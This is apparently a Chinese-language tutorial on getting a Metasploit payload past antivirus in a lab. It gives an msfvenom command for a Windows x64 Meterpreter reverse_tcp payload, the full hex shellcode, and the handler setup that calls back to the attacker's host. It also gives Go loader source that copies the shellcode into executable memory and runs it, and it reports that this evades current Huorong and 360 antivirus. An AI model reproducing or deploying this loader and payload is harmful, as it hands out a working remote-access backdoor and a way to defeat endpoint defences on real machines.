






# 0x00 实验环境

> 攻击机：Kali 192.168.32.128
>
> 靶 机：Win7 192.168.32.139


# 0x01 制作shellcode

Kali执行

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.32.128 lport=8010 -f c
```


将shellcode处理成16进制，结果如下：


`fc4883e4f0e8cc000000415141505251564831d265488b5260488b5218488b5220488b7250480fb74a4a4d31c94831c0ac3c617c022c2041c1c90d4101c1e2ed524151488b52208b423c4801d0668178180b020f85720000008b80880000004885c074674801d0508b4818448b40204901d0e35648ffc9418b34884801d64d31c94831c0ac41c1c90d4101c138e075f14c034c24084539d175d858448b40244901d066418b0c48448b401c4901d0418b04884801d0415841585e595a41584159415a4883ec204152ffe05841595a488b12e94bffffff5d49be7773325f3332000041564989e64881eca00100004989e549bc02001f4ac0a8208041544989e44c89f141ba4c772607ffd54c89ea68010100005941ba29806b00ffd56a0a415e50504d31c94d31c048ffc04889c248ffc04889c141baea0fdfe0ffd54889c76a1041584c89e24889f941ba99a57461ffd585c0740a49ffce75e5e8930000004883ec104889e24d31c96a0441584889f941ba02d9c85fffd583f8007e554883c4205e89f66a404159680010000041584889f24831c941ba58a453e5ffd54889c34989c74d31c94989f04889da4889f941ba02d9c85fffd583f8007d2858415759680040000041586a005a41ba0b2f0f30ffd5575941ba756e4d61ffd549ffcee93cffffff4801c34829c64885f675b441ffe7586a005949c7c2f0b5a256ffd5`


# 0x02 建立监听

在kali建立监听

```bash
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.32.128
lhost => 192.168.32.128
msf exploit(handler) > set lport 8010
lport => 8010
msf exploit(handler) > run
```


# 0x03 go语言加载shellcode免杀

go语言VirtualAlloc函数加载shellcode 过杀软

## 核心代码



```go
package main

import (
	"syscall"
	"unsafe"
	"encoding/hex"
	"os"
)

func Run(sc []byte) {
	var kernel32 = syscall.MustLoadDLL("kernel32.dll")
	var ntdll = syscall.MustLoadDLL("ntdll.dll")
	var VirtualAlloc = kernel32.MustFindProc("VirtualAlloc")
	var RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")

	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sc)), 0x1000|0x2000, 0x40)
	RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), uintptr(len(sc)))
	syscall.Syscall(addr, 0, 0, 0, 0)
}

func main(){
 	sc, _ := hex.DecodeString(os.Args[1])
	Run(sc)
}
```

## 编译

build bypass.go

生成bypass.exe文件



# 0x04 测试免杀

放到已安装某绒和某60的win7虚机测试

这里某绒已是最新版


未报毒

 



 

某60也已是最新版



同样未报毒



# 0x05 上线

执行bypass.exe shellcode

